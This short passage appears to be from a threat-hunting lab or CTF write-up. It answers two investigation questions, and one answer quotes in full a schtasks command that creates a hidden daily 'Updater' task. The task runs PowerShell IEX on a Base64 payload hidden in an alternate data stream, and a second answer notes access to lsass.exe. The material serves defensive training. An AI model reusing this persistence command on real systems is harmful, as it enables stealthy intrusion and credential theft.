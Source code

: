 Q16 What was the full command used to create the scheduled task in Investigation 3.2?

A16 
```
 "C:\WINDOWS\system32\schtasks.exe" /Create /F /SC DAILY /ST 09:00 /TN Updater /TR "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String($(cmd /c ''more < c:\users\q\AppData:blah.txt'''))))\""
```
![alt text](image-42.png)

Q17 What process was accessed by schtasks.exe that would be considered suspicious behavior in Investigation 3.2?

A17 lsass.exe
